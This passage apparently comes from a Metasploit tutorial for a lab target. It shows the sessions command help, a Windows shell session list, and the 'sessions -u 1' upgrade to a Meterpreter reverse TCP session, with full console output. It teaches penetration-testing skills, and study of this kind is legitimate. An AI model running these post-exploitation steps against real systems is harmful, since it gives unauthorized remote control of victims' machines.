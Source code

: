 ```bash
    -q        Quiet mode
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table

Many options allow specifying session ranges using commas and dashes.
For example:  sessions -s checkvm -i 1,3-5  or  sessions -k 1-2,5,6
```

Run `sessions` to check the session number for your target shell.  If you haven't exploited any other targets since opening Metasploit, this should be session 1

```bash
msf5 > sessions

Active sessions
===============

  Id  Name  Type               Information
                                  Connection
  --  ----  ----               -----------
                                  ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.2.8.137:4444 -> 10.10.214.103:49187 (10.10.214.103)
```

Now, upgrade the session:

```bash
msf5 > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.8.137:4433
[*] Sending stage (176195 bytes) to 10.10.214.103
[*] Meterpreter session 2 opened (10.2.8.137:4433 -> 10.10.214.103:49213) at 2020-06-01 08:51:47 -0500
[*] Stopping exploit/multi/handler
[*] Starting interaction with 2...

meterpreter > 
```

With a Meterpreter shell, you can now do all sorts of things on the target, provided the process Meterpreter is attached to has high enough permissions.  We'll get into all the different functionality available with Meterpreter in another document, but you can check out [Offensive Security's in-depth chapter on Meterpreter here](https://www.offensive-security.com/metasploit-unleashed/about-meterpreter/).



## Database Functionality
